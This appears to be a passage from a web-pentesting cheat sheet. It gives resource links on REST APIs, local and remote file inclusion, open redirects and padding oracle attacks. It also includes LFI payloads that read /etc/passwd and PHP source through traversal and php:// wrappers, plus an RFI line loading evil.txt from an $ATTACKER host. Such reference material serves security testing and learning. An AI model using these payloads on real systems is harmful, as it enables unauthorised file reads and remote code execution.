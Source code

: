 > **Resources**

[Cracking & Fixing REST APIs](http://www.sempf.net/post/Cracking-and-Fixing-REST-APIs)

##### LFI

> ###### Resources

[Local File Inclusion Testing Techniques](https://www.exploit-db.com/docs/40992.pdf)

[Insecure PHP Functions & their Exploits \(LFI/RFI\)](https://0xzoidberg.wordpress.com/category/security/lfi-rfi/)

[LFI and RFI -- The Website Security Vulnerability](https://www.hackersonlineclub.com/lfi-rfi/)

[Local File Inclusion to Remote Code Execution](http://resources.infosecinstitute.com/local-file-inclusion-code-execution/)

[Local File Inclusion to Remote Code Execution Advanced Exploitation PROC Shortcuts](http://www.ush.it/2008/08/18/lfi2rce-local-file-inclusion-to-remote-code-execution-advanced-exploitation-proc-shortcuts/)

> ###### Examples

```
file:///etc/passwd
../../../etc/passwd
php://filter/convert.base64-encode/resource=admin.php
php://filter/convert.base64-encode/resource=../../../../../etc/passwd
php://input
    send post data
expect://whoami
```

##### Open Redirects

> ###### Resources

[Open URL Redirects](https://zseano.com/tutorials/1.html)

##### RFI

```
Kali> echo "<?php phpinfo(); ?>" > evil.txt
http://$TARGET/index.php?path=http://$ATTACKER/evil.txt
```

##### Padding Oracle Attack

> ###### Resources

[Automated Padding Oracle Attacks with Padbuster](https://blog.gdssecurity.com/labs/2010/9/14/automated-padding-oracle-attacks-with-padbuster.html)

> ###### Arguments

```
url - first argument is the URL
encrypted - second argument is the encrypted text
bits - third argument is the number of bits per block
-cookies - define a cookie to use
-plaintext - plaintext to encrypt
```
